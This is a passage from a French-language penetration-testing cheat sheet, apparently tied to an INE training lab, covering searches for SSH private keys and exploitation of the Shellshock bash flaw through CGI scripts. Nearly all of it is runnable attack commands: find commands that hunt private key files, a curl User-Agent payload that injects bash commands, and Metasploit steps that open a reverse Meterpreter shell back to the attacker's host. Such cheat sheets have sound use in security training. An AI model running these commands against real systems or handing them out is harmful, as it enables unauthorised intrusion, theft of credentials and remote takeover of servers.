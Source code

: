 ### Clés SSH
| Commande | Description |
|----------|-------------|
| `find / -name "*.key" 2>/dev/null` | Clés privées |
| `find / -name "*_rsa" 2>/dev/null` | Clés RSA |
| `find / -name "*_dsa" 2>/dev/null` | Clés DSA |
| `find / -name "authorized_keys" 2>/dev/null` | Clés autorisées |

---

## 🔥 11. Exploitation via Shellshock (CGI Web-to-System)

### Reconnaissance web pour escalade système
```bash
# Scan des services web
nmap -p 80,443,8080 --script http-enum <target>

# Recherche de scripts CGI vulnérables
dirb http://<target> /usr/share/dirb/wordlists/common.txt
gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x cgi,sh,pl,py

# Scripts CGI communs
/cgi-bin/test.cgi
/cgi-bin/admin.cgi  
/gettime.cgi
/status.cgi
```

### Détection de Shellshock (CVE-2014-6271)
```bash
# Test avec Nmap NSE
nmap --script http-shellshock --script-args "http-shellshock.uri=/cgi-bin/test.cgi" <target>

# Test manuel avec curl
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://<target>/cgi-bin/test.cgi
```

### Exploitation Shellshock avec Metasploit (Méthode Lab)
```bash
# Module de scan/détection
msfconsole -q
use auxiliary/scanner/http/apache_mod_cgi_bash_env
set RHOSTS <target>
set TARGETURI /cgi-bin/test.cgi
run

# Module d'exploitation avec Meterpreter
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS target1.ine.local
set TARGETURI /cgi-bin/test.cgi
set LHOST <your_ip>
set payload linux/x86/meterpreter/reverse_tcp
exploit

# Post-exploitation immédiate
meterpreter > sysinfo
meterpreter > getuid
meterpreter > pwd

```